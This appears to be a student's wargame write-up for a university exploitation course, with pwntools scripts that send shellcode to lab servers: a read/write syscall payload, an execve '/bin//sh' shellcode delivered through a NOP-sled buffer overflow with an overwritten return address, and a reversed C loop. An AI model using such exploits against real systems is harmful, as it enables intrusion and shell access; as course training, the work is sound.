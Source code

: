 # COMP6447 Wargame 3
Written by WENG XINN CHOW (z5346077) on 20.06.2022

simple
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMy1zaW1wbGUiLCJpcCI6IjEyMy4yNDMuMjE1LjYiLCJzZXNzaW9uIjoiN2E0NzcwMTItMWUxOC00NDJjLWJjMmQtMTlkYzRjZGNlNDUyIn0.ZxQl8eHUu-MP1QtLZbiywutiQDjlu83lNQnpcEmHGsg}

General overview of problems faced
-------------------------------------
1. Had to study the linux syscall reference in order to write the shellcode that involves syscall operations like read and write. 
2. Had to know the usage of registers for different byte sizes.

Script/Command used
------------------
```
from pwn import *

host = "comp6447.wtf"
port = 22188
p = remote(host, port)

# Read
# xor to pass 0 as argument
# bx (16-bit): store 1000 (0x3e8) fd
# dl (8-bit): size
# al (8-bit): syscall read
shellcode = asm(
    """
    xor ebx, ebx
    xor edx, edx
    xor eax, eax
    mov bx, 0x3e8
    mov ecx, esp
    mov dl, 0x60
    mov al, 0x3
    int 0x80
    """
)

# Write
# xor to pass 0 as argument
# bl (8-bit): fd
# dl (8-bit): size
# al (8-bit): syscall write
shellcode += asm(
    """
    xor ebx, ebx
    xor edx, edx
    xor eax, eax
    mov bl, 0x1
    mov dl, 0x60
    mov al, 0x4
    int 0x80
    """
)

p.sendline(shellcode)

p.interactive()
```

shellz
===========================
General overview of problems faced
-------------------------------------
1. Had to find the return address as well as the offset to overwrite that address.
2. Had to make sure the shellcode being run within the accurate place. This can be done by overwriting the buffer with a nop sled. 
3.  I was able to catch the flag before, but out of sudden when I wanted to write the markdown file the next day, it ran into errors but I couldn't figure out what went wrong.

Script/Command used
------------------
```
from pwn import *

host = "comp6447.wtf"
port = 17521
p = remote(host, port)

# Shell code 
shellcode = asm(
    """
    xor eax, eax
    push eax
    push 0x68732f2f  
    push 0x6e69622f
    mov ebx, esp
    push eax
    push ebx
    mov ecx, esp
    mov al, 0xb
    int 0x80
    """
)

# Using gdb to find the return addr
return_addr = 0x08049286
# nops + shellcode + nops + return address
payload = b'\x90' * 8000 + shellcode + b'\x90' * 200 + p32(return_addr)
p.sendline(payload)

p.interactive()
```
re chall2
=============
General overview of problems faced
-------------------------------------
1. Had to recognise and write a counter while loop. 
2. It's been a long time since I first learned assembly so I was struggling to understand the usage and concept of ```lea```.
```C
int main(int argc, char** argv){
    int i = 0;
    int a = 7107;

    while (i < 10){
        if (i >= 1){
            a -= 6896;
            printf(a);
        };
        i += 1;
    };
}
```
